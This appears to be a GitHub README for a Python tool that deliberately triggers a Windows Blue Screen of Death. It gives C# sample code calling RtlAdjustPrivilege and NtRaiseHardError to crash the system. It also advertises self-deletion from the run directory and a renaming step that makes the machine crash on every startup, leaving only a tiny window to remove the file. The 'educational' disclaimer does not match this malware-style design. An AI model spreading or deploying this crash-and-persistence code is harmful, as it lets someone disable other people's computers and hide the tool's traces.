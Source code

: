 # Windows BSOD  
This project was inspired from a undocumented function in ntdll.dll.
The function is based in C# but using ctypes python makes it possible  

[Link to undocumented function](https://www.pinvoke.net/default.aspx/ntdll/NtRaiseHandError.html) 

```c#
C# Sample Code:
    Console.Write("Press any key to trigger a BSOD.");
    Console.ReadKey();
    RtlAdjustPrivilege(19, true, false, out bool previousValue);
    NtRaiseHardError(0xC0000420, 0, 0, IntPtr.Zero, 6, out uint Response);
```

- Supports compiling using pyinstaller and Nuitka
- Removes itself from execution directory automatically

**Restart prestance**  

Modify Line 15:  

```executable = "BSOD.exe.malz"``` to ```"executable = "BSOD.exe"```  

*note this will cause it to BSOD on start up there is a very small window for deleting it*

**Disclaimer**  

This tool is intended for educational purposes and has been developed for troubleshooting the identification of BSOD (Blue Screen of Death) causes. Its usage for any illegal activities is strictly prohibited, as it is meant exclusively for educational purposes.
